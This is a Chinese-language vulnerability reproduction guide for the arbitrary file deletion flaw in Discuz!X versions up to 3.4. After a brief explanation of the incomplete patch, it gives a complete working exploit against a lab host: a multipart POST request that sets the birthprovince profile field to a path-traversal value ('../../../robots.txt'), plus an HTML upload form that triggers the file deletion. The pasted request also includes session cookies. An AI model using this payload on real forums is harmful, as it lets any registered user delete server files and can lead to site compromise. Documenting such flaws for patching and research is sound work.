








# Discuz!X ≤3.4 任意文件删除漏洞

> 漏洞说明

Discuz!X社区软件，是一个采用PHP 和MySQL 等其他多种数据库构建的性能优异、功能全面、安全稳定的社区论坛平台。

2017年9月29日，Discuz!修复了一个安全问题用于加强安全性，这个漏洞会导致前台用户可以导致任意删除文件漏洞。

2017年9月29日，知道创宇404 实验室开始应急，经过知道创宇404实验室分析确认，该漏洞于2014年6月被提交到Wooyun漏洞平台，Seebug漏洞平台收录了该漏洞，漏洞编号ssvid-93588。该漏洞通过配置属性值，导致任意文件删除。

经过分析确认，原有的利用方式已经被修复，添加了对属性的formtype判断，但修复方式不完全导致可以绕过，通过模拟文件上传可以进入其他unlink条件，实现任意文件删除漏洞。


> 前提条件

版本：Discuz!X <= 3.4


> 利用工具


> 漏洞复现

安装环境，数据库地址db，其他默认



访问http://192.168.40.77/robots.txt



创建普通用户登录后在个人资料设置页找到用户formhash



带上cookie和formhash发送数据包

```http
POST http://192.168.40.77/home.php?mod=spacecp&ac=profile&op=base HTTP/1.1
Host: 192.168.40.77
Content-Length: 367
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPFvXyxL45f34L12s
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.79 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Cookie: CFADMIN_LASTPAGE_ADMIN=%2FCFIDE%2Fadministrator%2Fhomepage%2Ecfm; seraph.confluence=524289%3A811d881b4cd8cc25b1959b3e1cbddba67d692696; DRf_sid=EBLzRD; DRf_auth=1ad8KXYtvz%2FSvlBgaun%2BLDPX7XUsPFGuWSdf665nohKCtf1tqXcZz3vAZDhyS%2BJ2l6pRDt5rh%2Fj351TDDH4c9Q; smile=1D1; DRf_fid2=1672464153; DRf_visitedfid=2; DRf_oldtopics=D13D14D; YVxj_2132_saltkey=NzaLMXxr; YVxj_2132_lastvisit=1672462246; YVxj_2132_sid=q8XCXc; YVxj_2132_seccode=1.cba9494f28785f45b9; YVxj_2132_ulastactivity=619emNtzjk4RwR86onCG5mGlNawj4K8%2BJRCgYekcgQKlpCGRs5xB; YVxj_2132_auth=d609UN%2FZjuCzDh5xMThBVkvTmtiKMs233PF79bk2xLS4NBq0LqipszZOSsdBuEpVhDXeYZF56lsZ94HN0Jy9; YVxj_2132_nofavfid=1; YVxj_2132_noticeTitle=1; YVxj_2132_home_diymode=1; YVxj_2132_sendmail=1; YVxj_2132_lastact=1672466715%09home.php%09spacecp; YVxj_2132_checkpm=1
Connection: close

------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="formhash"

155f3474
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="birthprovince"

../../../robots.txt
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="profilesubmit"

1
------WebKitFormBoundaryPFvXyxL45f34L12s--

```



提交成功后用户出生地显示为所删目标文件



创建一个上传页面

```html
<body>
    <form action="http://192.168.40.77/home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=155f3474" method="post" enctype="multipart/form-data">
        <input type="file" name="birthprovince" />
        <input type="submit" value="upload" />
    </form>
</body>
```

上传任意图片



如果无法上传可以手动添加cookie



此时可以发现robots.txt文件成功删除、

